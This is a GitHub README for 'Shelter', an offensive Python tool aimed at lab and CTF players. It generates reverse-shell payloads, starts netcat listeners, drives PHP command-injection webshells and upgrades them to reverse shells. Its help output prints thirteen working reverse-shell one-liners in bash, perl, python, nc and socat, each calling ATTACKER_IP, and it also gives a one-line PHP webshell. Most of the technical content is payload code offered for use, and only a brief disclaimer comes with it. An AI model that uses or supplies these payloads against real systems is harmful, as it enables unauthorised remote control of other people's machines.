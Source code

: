 # Shelter
***
[![Upload Python Package](https://github.com/Xyan1d3/shelter/actions/workflows/python-publish.yml/badge.svg)](https://github.com/Xyan1d3/shelter/actions/workflows/python-publish.yml)

**Shelter the magical Shell Handler.**
![](img/Pasted_image_20210428200307.png)
## What is it ?

Shelter is a new way to catch reverse shell's and also reduces the effort of visiting `pentestmonkey` and `highoncoffee`frequently for reverse shell payloads and changing of the `Attacker-IP` and `Attacker-Port` everytime.

Shelter is made to perform in 4 mode's. The required mode can be easily set by passing the argument of the mode to the script.
- **rev** : Generates and copies reverse shell payload with `IP` and `port` set to clipboard and also starts up a netcat.
- **web** : Webshell interactor for GET parameter command injection in php.
- **webrev** : Convert's a classic GET parameter command injection in php to a reverse shell.
- **host** : Will host post exploitation module's like `pspy`,`linpeas` etc. from the attackbox using `python http.server` or `updog` and copy the web url to the clipboard. 

**This tool is focused towards the solver's of `hackthebox`, `tryhackme` or any other labs with `vpn` connection.**

***
## ✨ Features
### rev Module
- Generate and copy revshell payload with `ATTACKERIP`[default: tun0] and `ATTACKERPORT`. 
- Start's Up a netcat listener on that port for catching the shell.
- Support's `13` language's of reverse shell payload's all tested.
**Only Linux payload's are supported for now.**
- Reduces the hassle of visiting `pentestmonkey` or `highoncoffee` reverse shell cheatsheet for geting reverse shell payloads and changing the `IP` and `PORT` on it everytime.
**This tools is not claiming to be better than pentestmonkey or highoncoffee by any means.**
### web Module
- Reduces the hassle of writting commands in `burpsuite` in time of php parameter command injection and url encoding every time.
- Automatically, URL encodes the command before sending it.

### webrev Module
- Converts a dumb GET parameter command injection to a reverse shell.
- Generates a reverse shell payload with set `ATTACKERIP`[default : tun0] and `ATTACKERPORT` and sends it to webserver url encoded.
- Starts up a netcat listner on the given `ATTACKERPORT` for catching the shell.
### host Module[Coming Soon...]
- It will create a `www` directory with `phpreverseshell`, `powershell reverseshell`, while setting the `ATTACKERIP` and `ATTACKERPORT` and post exploitation tools like `pspy`,`linpeas`,`winpeas` etc. using `updog` or classic `python http.server`.
- It will also copy the url of the file hosted from the server to the clipboard for easy pasting and `wgetting`
***
## Usage
### Rev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev --help
usage: shelter.py rev [-h] {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...

optional arguments:
  -h, --help            show this help message and exit

Available Payloads:
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
    py2                 python -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py                  python3 -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev py --help
usage: shelter.py rev py [-h] [--nohandler] [-i 127.0.0.1] [-p 8888]

optional arguments:
  -h, --help    show this help message and exit
  --nohandler   Copies only the revshell payload. [Does not start handler]
  -i 127.0.0.1  IP for reverse shell.
  -p 8888       PORT for reverse shell.
```

#### Taking a reverse shell from a docker container.
![](img/Pasted_image_20210428201310.png)

### Web Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py web --help
usage: shelter.py web [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL

positional arguments:
  URL           Target URL [http://127.0.0.1/cmd.php]

optional arguments:
  -h, --help    show this help message and exit
  -f F          Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM  GET parameter to send commands.[Default: cmd]
  --ssl         Force HTTPS
  --nossl       Force downgrade to HTTP
```

By default it assume's filename `cmd.php` and GET parameter `cmd` if not specified as an argument.

The php code responsible for getting a simple GET parameter webshell.
```php
root@6a647b5a3d5f:~# cat cmd.php 
<?php system($_GET[cmd]); ?>
```
#### Webshell on a docker container.
![](img/Pasted_image_20210428202006.png)

### Webrev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py webrev --help                                                                                                                                        
usage: shelter.py webrev [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...
                                                                                    
positional arguments:                                                                                                                                                    
  URL                   Target URL [http://127.0.0.1/cmd.php]                       
                                          
optional arguments:                                                                 
  -h, --help            show this help message and exit
  -f F                  Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM          GET parameter to send commands.[Default: cmd]                                                                                                    
  --ssl                 Force HTTPS                                                 
  --nossl               Force downgrade to HTTP
  
Available Payloads:                                                                                                                                                      
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}                                                                               
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash          
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196                                                                     
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done                                                    
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f                                                             
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'                                                              
    py2                 python -c 'import                                                                                                                                
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py                  python3 -c 'import                                          
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in                    
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import                                                                      
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
#### Revshell on a docker container.
![](img/Pasted_image_20210428223306.png)

***
# Disclaimer
Don't use this script for any malicious or illegal purpose's. The Author or any contributor of this repository or tool is not responsible for any of those activities.
